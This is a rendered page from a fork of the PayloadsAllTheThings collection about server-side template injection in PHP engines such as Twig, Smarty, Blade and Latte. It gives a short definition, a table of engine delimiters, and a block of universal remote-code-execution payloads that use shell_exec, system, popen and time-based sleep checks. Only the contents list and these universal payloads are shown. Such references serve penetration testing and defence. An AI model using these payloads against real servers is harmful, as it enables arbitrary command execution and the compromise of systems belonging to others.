

repository: pchabermann/PayloadsAllTheThings · page: Server Side Template Injection/PHP/index.html · generator: mkdocs

# Server Side Template Injection - PHP

> Server-Side Template Injection (SSTI)  is a vulnerability that occurs when an attacker can inject malicious input into a server-side template, causing the template engine to execute arbitrary commands on the server. In PHP, SSTI can arise when user input is embedded within templates rendered by templating engines like Smarty, Twig, or even within plain PHP templates, without proper sanitization or validation.

## Summary

- [Templating Libraries](#templating-libraries)
- [Universal Payloads](#universal-payloads)
- [Blade](#blade)
- [Smarty](#smarty)
    - [Smarty - Code Execution with Obfuscation](#smarty---code-execution-with-obfuscation)
- [Twig](#twig)
    - [Twig - Basic Injection](#twig---basic-injection)
    - [Twig - Template Format](#twig---template-format)
    - [Twig - Arbitrary File Reading](#twig---arbitrary-file-reading)
    - [Twig - Code Execution](#twig---code-execution)
    - [Twig - Code Execution with Obfuscation](#twig---code-execution-with-obfuscation)
- [Latte](#latte)
    - [Latte - Basic Injection](#latte---basic-injection)
    - [Latte - Code Execution](#latte---code-execution)
- [patTemplate](#pattemplate)
- [PHPlib](#phplib-and-html_template_phplib)
- [Plates](#plates)
- [References](#references)

## Templating Libraries

| Template Name   | Payload Format |
|-----------------|----------------|
| Blade (Laravel) | `{{ }}`        |
| Latte           | `{ }`          |
| Mustache        | `{{ }}`        |
| Plates          | `<?= ?>`       |
| Smarty          | `{ }`          |
| Twig            | `{{ }}`        |

## Universal Payloads

Generic code injection payloads work for many PHP-based template engines, such as Blade, Latte and Smarty.

To use these payloads, wrap them in the appropriate tag.

```php
// Rendered RCE
shell_exec('id')
system('id')

// Error-Based RCE
ini_set("error_reporting", "1") // Enable verbose fatal errors for Error-Based
call_user_func(join("", ["xx", shell_exec('id')]))

// Boolean-Based RCE
1 / (pclose(popen("id", "wb")) == 0)

// Time-Based RCE
shell_exec('id && sleep 5')
system('id && sleep 5')
```
